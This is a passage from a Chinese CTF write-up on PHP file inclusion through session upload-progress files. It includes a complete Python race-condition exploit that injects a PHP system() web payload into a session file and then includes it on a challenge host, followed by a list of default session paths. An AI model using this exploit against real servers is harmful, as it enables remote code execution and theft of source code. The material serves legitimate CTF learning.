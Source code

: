 ```python
    for t in tp:
        t.join()

if __name__=="__main__":
    main()
```
##### session文件包含
PHP中可以通过session progress功能实现临时文件的写入，这种利用方式需要满足下面几个条件：
>目标环境开启了`session.upload_progress.enable`选项
发送一个文件上传请求，其中包含一个文件表单和一个名字是`PHP_SESSION_UPLOAD_PROGRESS`的字段
请求的Cookie中包含Session ID

注意的是，如果我们只上传一个文件，这里也是不会遗留下Session文件的，所以表单里必须有两个以上的文件上传
所以，默认情况下，我们需要在session文件被清理前利用它，这也会用到条件竞争
```python
import io
import requests
import threading
sessID = 'flag'
url = 'http://a7646920-aa2f-46f4-bd43-00e8be7a1c6e.node3.buuoj.cn/'
def write(session):
    while True:
        f = io.BytesIO(b'a'*256*1) #建议正常这个填充数据大一点
        response = session.post(
            url,
            cookies={'PHPSESSID': sessID},
            data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php system("cat *.php");?>'},
            files={'file': ('a.txt', f)}
            )
def read():
    while True:
        response = session.get(url+'?file=/tmp/sess_{}'.format(sessID))
        if 'flag{' in response.text:
            print(response.text)
            break
session = requests.session()
write = threading.Thread(target=write, args=(session,))
write.daemon = True #当daemon为True时，父线程在运行完毕后，子线程无论是否正在运行，都会伴随主线程一起退出。
write.start()
read()
```
获取session文件路径：
```
1、session文件的保存路径可以在phpinfo的session.save_path看到
2、默认路径：
/var/lib/php/sess_PHPSESSID
/var/lib/php5/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID
```
session的文件名格式为`sess_[phpsessid]`。而phpsessid在发送的请求的cookie字段中可以看到
